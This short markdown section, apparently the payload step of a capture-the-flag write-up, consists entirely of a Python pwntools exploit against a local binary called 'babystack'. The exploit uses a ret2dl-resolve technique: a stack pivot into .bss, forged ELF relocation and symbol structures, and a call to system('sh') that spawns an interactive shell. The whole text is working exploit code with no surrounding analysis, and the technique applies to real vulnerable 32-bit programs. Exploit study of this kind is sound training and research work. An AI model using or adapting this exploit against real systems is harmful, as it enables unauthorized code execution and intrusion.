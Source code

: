 # 7. Payload
```python
from pwn import *
r = process("./babystack")
_elf = ELF("./babystack")
resolver = 0x80482F0    #push link_map and call dl_resolve
buf = 0x804af00         #controllable area (.bss)
leave_ret = 0x8048455   #gadget
SYMTAB = 0x080481cc
STRTAB = 0x0804822c
JMPREL = 0x080482b0

# Pivoting the stack and calling read(0, buf, 0x80) for the rest of the payload
buffer = ""
buffer += "A"*40
buffer += p32(buf)   #stack pivoting. (esp = buff)
buffer += p32(_elf.plt["read"]) + p32(leave_ret) + p32(0) + p32(buf) + p32(0x80) 

# Compute offsets and forged structures
forged_ara = buf + 0x14
rel_offset = forged_ara - JMPREL
elf32_sym = forged_ara + 0x8 #size of elf32_sym

align = 0x10 - ((elf32_sym - SYMTAB) % 0x10) #align to 0x10

elf32_sym = elf32_sym + align
index_sym = (elf32_sym - SYMTAB) / 0x10

r_info = (index_sym << 8) | 0x7 

elf32_rel = p32(_elf.got['read']) + p32(r_info)
st_name = (elf32_sym + 0x10) - STRTAB
elf32_sym_struct = p32(st_name) + p32(0) + p32(0) + p32(0x12)

# Rest of the payload: dl-resolve hack :) (the real deal)
buffer2 = 'AAAA'                #fake ebp
buffer2 += p32(resolver)        # ret-to dl_resolve
buffer2 += p32(rel_offset)      #JMPRL + offset = struct
buffer2 += 'AAAA'               #fake return 
buffer2 += p32(buf+100)         # system parameter
buffer2 += elf32_rel            # (buf+0x14)
buffer2 += 'A' * align
buffer2 += elf32_sym_struct     # (buf+0x20)
buffer2 += "system\x00"
p = (100 - len(buffer2))
buffer2 += 'A' * p              #padding
buffer2 += "sh\x00"
p = (0x80 - len(buffer2))
buffer2 += "A" * p              #total read size

r.send(buffer + buffer2)
r.interactive()
```
